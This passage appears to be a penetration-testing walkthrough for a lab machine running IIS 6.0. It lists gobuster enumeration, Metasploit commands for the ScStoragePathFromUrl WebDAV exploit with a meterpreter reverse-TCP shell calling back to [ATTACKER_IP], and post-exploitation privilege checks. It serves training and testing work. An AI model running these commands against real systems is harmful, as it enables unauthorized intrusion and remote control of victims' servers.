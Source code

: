 #### 1.3 Directory Enumeration
```bash
# Use gobuster for directory discovery
gobuster dir -u http://10.129.95.234 -w /path/to/wordlist -x asp,aspx,html
```

### Phase 2: Initial Exploitation
**Objective**: Gain initial foothold via IIS 6.0 WebDAV vulnerability

#### 2.1 Metasploit Exploitation (Primary Method)
```bash
# Launch Metasploit
msfconsole

# Use the IIS WebDAV exploit
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.129.95.234
set RPORT 80
set payload windows/meterpreter/reverse_tcp
set LHOST [ATTACKER_IP]
set LPORT 4444
exploit
```

#### 2.2 Manual Exploitation (Alternative)
```python
# Custom exploit script targeting the buffer overflow
# Target: ScStoragePathFromUrl function in IIS 6.0
# CVE: Related to EXPLODINGCAN NSA exploit
```

#### 2.3 Payload Options
1. **Meterpreter Reverse TCP** (Recommended)
   - Full interactive shell
   - Built-in post-exploitation modules
   - File upload/download capabilities

2. **Standard Reverse Shell**
   - Lightweight option
   - Basic command execution

### Phase 3: Post-Exploitation
**Objective**: Establish persistence and escalate privileges

#### 3.1 Initial Access Validation
```bash
# Verify access level
whoami
whoami /priv
net user
net localgroup administrators
```
